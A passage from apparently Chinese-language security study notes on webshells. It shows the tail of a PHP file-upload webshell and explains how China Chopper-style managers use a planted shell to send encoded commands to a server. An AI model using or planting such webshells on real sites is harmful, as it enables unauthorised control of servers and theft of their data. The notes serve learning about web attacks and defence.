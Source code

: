    >       echo "<form action = '' method = 'post' ENCTYPE='multipart/form-data'>\n";
   >       echo "Local file: <input type = 'file' name = 'upload_file'>\n";
   >       echo "<input type = 'submit' value = 'Upload'>\n";
   >       echo "</form>\n<pre>\n\n</pre>";
   >   }else{
   >       if(move_uploaded_file($temp,$file)){
   >           echo "File uploaded successfully.<p>\n";
   >       }else{
   >           echo "Unable to upload ".$file."<p>\n";
   >       }
   >   }
   >   ?>
   >   ~~~
   
4. 注意事项：WebShell的文件类型应该与网站后端的文件类型（可以使用浏览器插件Wappalyzer查看）一致

### 二、菜刀工具

1. 功能：在攻击者入侵网站时，通常要以各种方式写入WebShell，从而获得服务器的控制权限。再植入WebShell文件后，为了方便管理，需要使用到一种WebShell管理工具，即我们所说的菜刀工具

2. 工作原理：

   > 1. 在植入WebShell之后，将植入的WebShell告知菜刀工具，使菜刀工具能够利用WebShell获取权限
   >
   > 2. 在菜刀工具连接到WebShell后，会利用WebShell向服务器传递要执行的代码（发送POST请求包），代码经过加密，且在要执行的时候使用像`base64_decode()`等方式进行解密
   >
   
3. 连接示例：![image-20210804173948193](../images/05_文件漏洞/image-20210804173948193.png)
